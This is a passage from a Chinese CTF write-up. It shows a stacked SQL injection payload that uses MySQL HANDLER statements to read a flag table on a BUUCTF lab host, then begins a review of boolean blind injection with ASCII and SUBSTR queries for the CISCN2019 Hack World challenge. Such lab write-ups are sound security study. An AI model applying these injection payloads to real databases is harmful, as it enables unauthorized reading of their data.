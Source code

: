 #### `handler`方法查询Flag

```
http://fe8a3b25-b05d-4623-a588-f61d6767ccaa.node4.buuoj.cn:81/?inject=2';handler FlagHere open;handler FlagHere read first;--+
```

<img src="CTF.assets/image-20230706152946726.png" alt="image-20230706152946726" style="zoom: 50%;" />

## [CISCN2019 华北赛区 Day2 Web1]Hack World

### 前置知识

#### 布尔盲注

这里先复习以下布尔盲注

先查询目标第一个字母的ASCII值

```sql
# 使用 limit 过滤出第一个用户名，使用 substr 函数切割出用户名的第一个字母
mysql> select ascii(substr((select username from users limit 0,1),1,1));
+-----------------------------------------------------------+
| ascii(substr((select username from users limit 0,1),1,1)) |
+-----------------------------------------------------------+
|                                                        68 |
+-----------------------------------------------------------+
1 row in set (0.00 sec)
```

嵌套select语句做布尔判断
